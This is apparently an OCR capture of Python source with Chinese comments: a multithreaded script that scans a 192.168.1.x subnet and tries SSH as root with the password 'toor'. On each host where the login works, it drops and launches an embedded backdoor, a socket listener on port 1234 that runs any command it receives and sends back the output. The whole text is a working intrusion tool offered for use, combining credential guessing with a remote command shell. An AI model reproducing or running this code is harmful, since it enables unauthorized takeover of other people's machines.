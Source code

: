 ```
def main(x):
    shell = '''
    #服务器端
    import socket
    import os
    s=socket.socket()   #创建套接字 #s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.bind(('0.0.0.0',1234))    #绑定地址和端口#0.0.0.0接收任意客户端ip连接
    s.listen(5)                 #调用listen方法开始监听端口，传入的参数为等待连接的最大数量
    con,addr=s.accept()     #接受一个客户端的连接
    #print(con,addr)
    for i in range(10):
        cmd=con.recv(1024)
        print(cmd)
        command=cmd.decode()
        if command.startswith('cd'):
            os.chdir(command[2:].strip())   #切换路径
            result=os.getcwd()      #显示路径
        else:
            result=os.popen(command).read()
        if result:
            con.send(result.encode())
        else:
            con.send(b'OK!')
    '''
    cmd = 'echo \"%s\" > ./shell.py' % (shell) +'&& python3 ./shell.py'
    port = '22'
    username = 'root'
    passwd = 'toor'

    ip = '192.168.1.{}'.format(x)
    q.put(ip.strip(),block=True, timeout=None)
    ip_demo=q.get()
    #判断是否成功
    try:
        #lock.acquire()
        res = ssh_base_pwd(ip_demo,port,username,passwd,cmd='id')
        if res:
            print("[ + ]Ip: %s" % ip_demo +" is success!!! [ + ]")
            #lock.release()
            ssh_base_pwd(ip_demo,port,username,passwd,cmd)
    except:
        print("[ - ]Ip: %s" % ip_demo +" is Failed")
    if x > 255:
        print("Finshed!!!!!!!!")
    q.task_done()

#线程队列部分
th=[]
th_num=255
for x in range(th_num):
        t=threading.Thread(target=main,args=(x,))
        th.append(t)
for x in range(th_num):
        th[x].start()
for x in range(th_num):
        th[x].join()

#q.join()所有任务完成
```
